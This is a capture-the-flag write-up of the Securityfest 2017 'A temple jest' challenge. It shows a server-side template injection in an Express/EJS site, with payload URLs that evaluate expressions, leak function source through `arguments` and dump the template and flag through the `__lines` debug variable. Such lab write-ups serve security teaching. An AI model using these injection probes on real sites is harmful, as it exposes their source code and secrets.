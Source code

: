 ```yaml
---
layout: post
ctf: "Securityfest 2017"
title: "A temple jest"
---
```


The main challenge was on this page `http://alieni.se:3003/render/404` which showed the website was under construction. When entering random characters, the website answers with "timeout". The next thing we try is a math expression which would lead to believe there was some kind of code execution.

`http://alieni.se:3003/render/4*4` confirmed the hypothesis showing the following output

```
16 is under construction...
```

Since the header mentionned the server was running Express, a Node.js web framework, we proceeded passing JavaScript variables such as `arguments`.

`http://alieni.se:3003/render/arguments[2]` leaked the following source code

```javascript
function (path, includeData) {
        var d = utils.shallowCopy({}, data);
        if (includeData) {
          d = utils.shallowCopy(d, includeData);
        }
        return includeFile(path, opts)(d);
      } is under construction...
```

Searching parts of this code on Google shows that is it part of the EJS library, a templating engine for JavaScript. This means that we are a probably injecting in an EJS template. Looking around the source code of EJS, we stumble upon this part of the template compilation process:

```javascript
if (opts.compileDebug) {
  src = 'var __line = 1' + '\n'
      + '  , __lines = ' + JSON.stringify(this.templateText) + '\n'
      + '  , __filename = ' + (opts.filename ?
            JSON.stringify(opts.filename) : 'undefined') + ';' + '\n'
      + 'try {' + '\n'
      + this.source
      + '} catch (e) {' + '\n'
      + '  rethrow(e, __lines, __filename, __line, escapeFn);' + '\n'
      + '}' + '\n';
}
```

If the `compileDebug` flag is enabled when compiling the template, EJS will add some variables to throw exception with better context to ease the debugging of the template. The variables `__lines` contains the template source code so let's check it out.

http://alieni.se:3003/render/__lines indeed outputs the template source code and the flag.

```
&lt;%= __lines %&gt; is under construction...&lt;%# ---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k}---SCTF{m3m0ry_l34k_Schm3m0ry_l34k} %&gt; is under construction...
```

Looking at the flag itself and other writeups, this was probably not the intended solution since no memory leaks was used.

Becojo - Northern Coalition
